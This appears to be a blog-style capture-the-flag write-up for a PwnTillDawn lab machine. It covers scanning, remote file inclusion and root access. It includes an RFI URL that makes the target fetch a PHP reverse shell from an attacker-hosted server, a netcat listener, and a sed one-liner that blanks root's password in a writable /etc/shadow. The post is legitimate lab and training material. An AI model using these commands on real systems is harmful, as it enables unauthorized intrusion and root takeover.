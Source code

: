 ```yaml
---
layout: post
title: Pwn 18
date: 10-05-2025
categories: [pwntilldwn]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://img.freepik.com/free-photo/portrait-young-student-education-day_23-2150980071.jpg"
---
```


## Scanning

```jsx
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 11:45 EAT
Nmap scan report for 10.150.150.18
Host is up (0.15s latency).
Not shown: 97 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

## Enumerating webpage

Because the file will be reflected and then will exploit but then it rename the file withsingle php so whont been seen so we add .php infront of .php file

## Vuln RFI

```jsx
mv rev.php rev.php.php

```

create server

```jsx
python3 -m http.server 8000

```

now you have to execute the payload with .php not .php.php because the service will remove .php

```jsx
http://10.150.150.18/index.php?page=http://10.66.66.102:8000/rev.php

```

```jsx
nc -lnvp 443 #killing have happy hacking kid
```

## Initial access

```jsx
                                                                                                                                                                                                                                               
┌──(cyberkid㉿cyberkiddle)-[~/…/redteam/pwntilldawn/21/Depixelization_poc]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.66.66.102] from (UNKNOWN) [10.150.150.18] 53038
bash: cannot set terminal process group (946): Inappropriate ioctl for device
bash: no job control in this shell
www-data@snare:/var/www/html$ 

```

## Priv esc phase

- Move the target linpease and find the user can write, execute and read /etc/shadow
    
    ## edit /etc/shadow
    
    empty pass
    
    - If the edit have successfully then you have to
        
        ```jsx
        python3 -c 'import pty; pty.spawn("/bin/bash")' #This will stablize the shell
        ```
        
    
    ```jsx
    root:!:20216:0:99999:7:::
    
    ```
    
    ```jsx
    sed 's/^root:[^:]*:/root::/' /etc/shadow > /tmp/shadow && cp /tmp/shadow /etc/shadow
    ```
    

## Root

```jsx
www-data@snare:/var/www/html$ su root
su root
Password: 
su: Authentication failure
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawnb("/bin/bash")'
python3 -c 'import pty;pty.spawnb("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
AttributeError: module 'pty' has no attribute 'spawnb'
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@snare:/var/www/html$ su root
su root
root@snare:/var/www/html# cd /root
cd /root
root@snare:~# ls
ls
FLAG2.txt  snap
root@snare:~# cat FLAG2.txt
cat FLAG2.txt
2b0286a69b276189afe50517304963e5fa5982d9
root@snare:~# 

```
![Screenshot From 2025-05-10 11-33-42](https://github.com/user-attachments/assets/aa202e3f-ba51-4903-93db-240694d849e7)


